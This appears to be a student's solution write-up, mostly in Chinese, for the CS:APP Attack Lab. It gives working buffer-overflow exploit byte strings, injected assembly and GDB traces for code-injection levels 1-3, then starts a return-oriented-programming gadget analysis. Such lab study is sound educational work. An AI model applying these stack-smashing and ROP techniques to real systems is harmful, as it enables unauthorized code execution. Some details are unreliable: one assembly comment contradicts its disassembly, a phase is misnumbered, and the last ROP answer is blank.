

# Attacklab

> **Note**: This is the 64-bit successor to the 32-bit *Buffer Lab*. Students are given a pair of unique custom-generated x86-64 binary executables, called targets, that have **buffer overflow bugs**. One target is vulnerable to *code injection* attacks. The other is vulnerable to *return-oriented programming* attacks. Students are asked to modify the behavior of the targets by developing exploits based on either code injection or return-oriented programming. This lab teaches the students about the stack discipline and teaches them about the danger of writing code that is vulnerable to buffer overflow attacks.
If you're a self-study student, here are a pair of [Ubuntu 12.4 targets](https://csapp.cs.cmu.edu/3e/target1.tar) that you can try out for yourself. You'll need to run your targets using the "-q" option so that they don't try to contact a non-existent grading server.

注：在 [CSAPP 官网](https://csapp.cs.cmu.edu/3e/labs.html) 中，可以下载所有不含具体答案的 CSAPP 实验。

本文档包含两个部分：
1. Introduction 部分包含 Attack lab 的细节，包括实验文件说明、实验内容、实验目标等，从官方实验手册直接复制。
2. Solutions 部分具体分析了每个攻击的实现方式。

## Introduction
This assignment involves generating a total of *five* attacks on two programs having different security vulnerabilities. Outcomes you will gain from this lab include:
- You will learn different ways that attackers can exploit security vulnerabilities when programs do not safeguard themselves well enough against buffer overflows.
- Through this, you will get a better understanding of how to write programs that are *more secure*, as well as some of the features provided by compilers and operating systems to make programs less vulnerable.
- You will gain a deeper understanding of the stack and parameter-passing mechanisms of x86-64 machine code.
- You will gain more experience with debugging tools such as GDB and OBJDUMP

**Note**: In this lab, you will gain firsthand experience with methods used to exploit security weaknesses in operating systems and network servers. Our purpose is to help you learn about the runtime operation of programs and to understand the nature of these security weaknesses so that you can avoid them when you write system code. We do not condone the use of any other form of attack to gain unauthorized access to any system resources.

You will want to study Sections 3.10.3 and 3.10.4 of the CS:APP3e book as reference material for this lab.

The files *target1* include:
- **README.txt**: A file describing the contents of the directory
- **ctarget**: An executable program vulnerable to *code-injection* attacks
- **rtarget**: An executable program vulnerable to *return-oriented-programming* attacks
- **cookie.txt**: An 8-digit hex code that you will use as a unique identifier in your attacks.
- **farm.c**: he source code of your target’s “gadget farm,” which you will use in generating return-oriented programming attacks.
- **hex2raw**: utility to generate attack strings.

实验分为两个部分：
1. Code Injection Attacks.
2. Return-Oriented Programming Attacks.

Summary of attack lab phases:
| Phase | Program | Level | Method | Function | Points |
| --- | --- | --- | --- | --- | --- |
| 1 | CTARGET | 1 | CI | touch1 | 10 |
| 2 | CTARGET | 2 | CI | touch2 | 25 |
| 3 | CTARGET | 3 | CI | touch3 | 25 |
| 4 | RTARGET | 2 | ROP | touch2 | 35 |
| 5 | RTARGET | 3 | ROP | touch3 | 5 |

- CI: Code Injection
- ROP: Return-Oriented Programming


具体的实验细节可见 [attacklab.pdf](/labs/attacklab/attacklab.pdf)。

## Solutions
ctarget.li.txt 为 CTARGET 程序的第 i 阶段的攻击字符串字节序列（以空格分隔），attack.li.txt 为 CTARGET 程序的第 i 阶段的攻击字符串。

rtarget.li.txt 为 RTARGET 程序的第 i 阶段的攻击字符串字节序列（以空格分隔），attack.li.txt 为 RTARGET 程序的第 i 阶段的攻击字符串。


### Code Injection Attacks
对于代码注入攻击（Code Injection Attacks）部分，将利用字符串攻击 CTARGET。
#### Level 1
对于 Phase 1，我们不需要注入代码，我们利用字符串将程序重定位到函数 touch1。CTARGET 通过函数 `test` 调用 `getbuf` 函数：
```c
void test()
{
    int val;
    val = getbuf();
    print("No expoit. Getbuf returned 0x%x\n", val);
}
```
其中函数 `touch1` 的 C 语言代码如下：
```c
void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```
首先，我们通过命令 `gdb ctarget` 进入 GDB 调试模式，运行反汇编指令，获取函数 `getbuf` 的汇编代码：
```
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret    
End of assembler dump.
```
函数 `getbuf` 在栈上分配了 40 字节的空间，作为缓冲区（Buffer），调用函数 `Gets` 获取字符串并存储于栈上。函数 `getbuf` 存在缓冲区溢出漏洞（Buffer Overflow）。

函数 `getbuf` 的栈帧（stack frame）如下表所示：
| item | size | statements |
| --- | --- | --- |
| Return Address | 8B | 返回地址 |
| Buffer | 40B | 缓冲区 |

因此，我们至少需要输入 48B 的字符串，并且使用 touch1 的内存地址覆盖函数 `getbuf` 的 Return Address。运行以下指令，获取 touch1 的汇编代码：
```
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    call   0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    call   0x400e40 <exit@plt>
End of assembler dump.
```
我们得到函数 `touch1` 的首地址为：**0x4017c0**（8 字节）。因此，这一关需要输入40个任意字符+8B的 `touch1` 首地址（小端顺序），一个可行的字节序列为：
```
30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 c0 17 40 00 00 00 00 00
```
通过 hex2raw 程序生成对应的字符串：
```
./hex2raw < ctarget.l1.txt > attack.l1.txt
```
运行以下指令进行测试：
```
./ctarget -i attack.l1.txt -q
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 C0 17 40 00 00 00 00 0
```


#### Level 2
Phase 2 需要注入少量的代码，函数 `touch2` 的 C 语言代码如下：
```c
void touch2(unsigned val)
{
    vlevel = 2;/* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
这一关的任务是让程序无法正常返回函数 `test`，并且成功以我们的 cookie（cookie.txt 文件中）为参数调用函数`touch2`。我们将代码嵌入到函数 `getbuf` 的缓冲区中，首先获取缓冲区的首地址，就是函数 `getbuf` 运行时，栈指针的位置：
```
(gdb) run -attack.l1.txt -q
...
Breakpoint 1, getbuf () at buf.c:12
12      buf.c: No such file or directory.
(gdb) disas getbuf
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret    
End of assembler dump.
(gdb) stepi
14      in buf.c
(gdb) print $rsp
$2 = (void *) 0x5561dc78
```
我们获得缓冲区首地址为：`0x5561dc78`，这个地址将覆盖函数 `getbuf` 的返回地址，使其返回这个缓冲区首地址，我们在该缓冲区中注入攻击代码，准备参数，并调用函数 `touch2`，攻击代码如下：
```
pushq $0x4017ec         # Address of function touch2
movq $0x5561dc78, %rdi  # Set parameter to our cookie value
retq                    # Transfer control to function touch2

```
代码解释：pushq 指令将函数 `touch2` 的首地址压入栈中（作为返回地址），结合 retq 指令，就可以将控制转移到 `touch2` 中，而 movq 指令的作用就是设置参数。

我们使用 gcc 生成机器代码，并用 objdump 反汇编，获取目标机器代码：
```
gcc -c attack.l2.s -o attack.l2.o
objdump -d attack.l2.o

attack.l2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   68 ec 17 40 00          push   $0x4017ec
   5:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   c:   c3                      ret
```
得到攻击代码的字节序列（13 字节）:
```
68 ec 17 40 00 48 c7 c7 fa 97 b9 59 c3
```
因此攻击字节序列为：13 字节攻击代码+27个无关字符+缓冲区首地址（小端序）。一个可行的字节序列为:
```
68 ec 17 40 00 48 c7 c7 fa 97 b9 59 c3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 dc 61 55 00 00 00 00
```
通过 hex2raw 生成攻击字符串，并进行测试：
```
./hex2raw < ctarget.l2.txt > attack.l2.txt
./ctarget -i attack.l2.txt -q
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:68 EC 17 40 00 48 C7 C7 FA 97 B9 59 C3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 DC 61 55 00 00 00 00
```

#### Level 3
Phase 3 也需要注入攻击代码，使得函数返回到 `touch3` 中，与 Phase 2 不同的是，这次传入的参数是我们的 cookie 的**字符串表示**。

通过指令
```
man ascii
```
我们可以直接查看对应 ASCII 字符的 16 进制编码值，对于 cookie 值 0x59b997fa 的 16 进制编码表示为:
```
35 39 62 39 39 37 66 61
```
函数 `touch3` 的 C 语言代码如下：
```c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
函数 `hexmatch` 的 C 语言代码如下：
```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
函数 getbuf 的**栈帧**如下：
| item | size | address | statements |
| --- | --- | --- | --- |
| cookie | 8B | 0x5561dca8 | Cookie 字符串 |
| Return Address | 8B | 0x5561dca0 | 返回地址 |
| Buffer | 40B | 0x5561dc78 | 缓冲区 |

其中 cookie 不是函数 `getbuf` 栈帧的一部分，但是将 cookie 存在高地址（在返回地址后面）是正确且安全的，因为若将 cookie 存放于缓冲区中，调用函数 touch3 时，Cookie 字符串可能会遭到破坏。

下面编写攻击代码，同 Phase 2 一样，将攻击代码嵌入到缓冲区中（首地址为 *0x5561dc78*），编写攻击代码，使得将控制转移到函数 `touch3`，并且将 cookie 字符串的首地址存放于寄存器 %rdi 中，准备好参数。

编写下列汇编代码；
```
pushq $0x4018fa         # Address of function touch3
movq $0x5561dca8, %rdi  # Adress of cookie string
retq                    # Transfer control to function touch3

```
通过 gcc 生成机器代码并通过 objdump 获取对应的机器代码：
```
gcc -c attack.l3.s -o attack.l3.o
objdump -d attack.l3.o

attack.l3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   68 fa 18 40 00          push   $0x4018fa
   5:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   c:   c3                      ret
```
对应的攻击代码字节序列（13字节）为：
```
68 fa 18 40 00 48 c7 c7 a8 dc 61 55 c3
```
最终的攻击字符串字节序列为：攻击代码字节序列+27个任意字符+攻击代码地址+Cookie 字符串：
```
68 fa 18 40 00 48 c7 c7 a8 dc 61 55 c3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```
通过 hex2raw 生成攻击字符串，并进行测试：
```
./hex2raw < ctarget.l3.txt > attack.l3.txt
./ctarget -i attack.l3.txt -q
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:68 FA 18 40 00 48 C7 C7 A8 DC 61 55 C3 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

### Return-Oriented Progamming Attacks
在程序 RTARGET 中执行代码注入攻击（Code Injection Attacks）比在 CTARGET 中要难的多，因此 RTARGET 使用了以下两种技术去抵抗这种攻击：
- 使用栈随机化机制，使得每次运行时栈的起始位置均随机，那么代码注入的返回地址就**无法确定**。
- 将栈标记为不可执行，即便是我们成功地返回到攻击代码处，程序也会因为段错误（Segmentation Fault）而终止执行。

ROP 攻击策略不同于 CI 攻击，我们需要识别已存在的程序代码中包含一条或多条指令最后跟着一个 ret 指令的字节序列，这样的代码片段称为 ***gadget***。

可以通过设计，执行一串 gadget 代码，完成特定的攻击效果：



在 [attacklab.pdf](/labs/attacklab/attacklab.pdf) 的附录中，可以找到该实验所需的指令的编码，这对于识别这些 gadget 代码的作用有很大的帮助。

#### Level 2
Phase 4 我们将重复 Phase 2 的攻击，区别在于使用 gadgets 代码在 RTARGET 程序上进行相同效果的攻击。我们仅可以使用四种指令类型：movq、popq、ret（0xc3）、nop（0x90），以及前 8 个寄存器（%rax-%rdi）。

注：实验手册中说明，所有需要的 gadgets 代码在 `start_farm` 和 `mid_farm` 之间，并且完成该 ROP 攻击只需要用到 2 个 gadget。

具体的实现思路分为两步：
1. 通过 pop 指令获取栈上存储的 cookie 值（小端序）。
2. 通过 mov 指令将 cookie 值转移到寄存器 %rdi 中。

在函数 `getval_280` 的机器代码中：
```
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	ret
```
发现字节序列 `58 90 c3`，等价于以下两条指令：
```
popq %rax
ret
```

在函数 `addval_273` 的机器代码中：
```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
```
发现字节序列 `48 89 c7 c3`，等价于以下两条指令：
```
movq %rax, %rdi
ret
```
函数 `getbuf` 的栈帧如下表所示：
| item | size | statements | address |
| --- | --- | --- | --- |
| touch2 address | 8B | gadget 2 的返回地址 | 0x5561dcb8 |
| gadget 2 code address | 8B | gadget 1 的返回地址  | 0x5561dcb0 |
| cookie | 8B | cookie 值0x59b997fa | 0x5561dca8 |
| gadget 1 code address | 8B | getbuf 的返回地址 | 0x5561dca0  |
| Buffer | 40B | 缓冲区 | 0x5561dc78 | 

其中 gadget 1 代码地址为：*0x4019cc*，gadget 2 代码地址为：*0x4019a2*。因此 Phase 5 的攻击字符串字节序列为：40个任意字符+gadget 1 代码地址+cookie值+gadget 2 代码地址+touch2地址，一个可行的字节序列为：
```

```

#### Level 3
